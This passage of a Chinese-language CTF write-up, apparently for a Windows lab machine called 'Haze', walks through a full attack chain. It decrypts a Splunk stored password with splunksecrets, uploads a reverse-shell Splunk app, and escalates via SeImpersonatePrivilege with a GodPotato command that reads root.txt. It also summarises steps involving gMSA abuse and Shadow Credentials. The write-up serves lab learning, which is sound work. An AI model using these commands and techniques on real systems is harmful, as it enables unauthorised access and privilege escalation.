./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfXXXXXXXXXXXX
./lib/node_modules/pdfkit/lib/mixins/color.coffee:                color = color.replace(/#([0-9A-F])([0-9A-F])([0-9A-F])/i, "#$1$1$2$2$3$3") if color.length is 4
```

然后用**splunksecrets**进行解密，注意这里的**secret**是备份代码中的。

```
[root@kali] /home/kali/Haze  
❯ splunksecrets splunk-decrypt -S splunk/Splunk/etc/auth/splunk.secret                                                                        ⏎
Ciphertext: $1$YDz8WfhXXXXXXXXXXXXXXX
Sp1unkXXXXXXXXXX
```

使用用户名**admin**即可登录到后台



- [0xjpuff/reverse\_shell\_splunk: A simple splunk package for obtaining reverse shells on both Windows and most \*nix systems.](https://github.com/0xjpuff/reverse_shell_splunk)

根据说明修改**ip**和端口后上传，得到反弹**shell**



查看当前用户的权限信息

```
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name            SID                                        
==================== ===========================================
haze\alexander.green S-1-5-21-323145914-28650650-2368316563-1106

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                         Attributes                                        
========================================== ================ =========================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                     Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                     Mandatory group, Enabled by default, Enabled group
HAZE\Splunk_Admins                         Group            S-1-5-21-323145914-28650650-2368316563-1108 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                  

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```

`SeImpersonatePrivilege` 是 Windows 系统中的一种权限，赋予进程 **“模拟（Impersonation）”** 的能力。  
拥有该权限的进程可以在获得某个令牌（Token）句柄后，模拟该令牌对应的用户身份，但无法直接创建新的令牌。

可以在这里查找到这个组的利用👇

- [Abusing Tokens - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege)



```
./GodPotato-NET4.exe -cmd 'cmd /c  type C:\Users\Administrator\Desktop\root.txt'
```

可以看到成功读取，当然其他的一些**Potato**也能这样执行



除了这个方式，也可以通过**meterpreter**



拿到哈希之后通过**5985**登录拿到**Administrator**的**shell**



## Summary

`User`：任意文件读取拿到密码以及密钥**secret**，通过工具解密得到**pual**和**mark**共用的密码。**mark**是**GMSA**组的管理员，因此可以尝试读取到**Backup**用户的密码哈希。拿到**Backup**之后再次进行域内分析，可以进行**ShadowCredential**攻击，最后拿到**user**。

`Root`：通过下载备份源码分析，得到**admin**用户的登录密码，到后台上传一个恶意的插件。得到**Alexander**用户，这个用户在**SeImpersonatePrivilege**组中，可以进行提权操作。
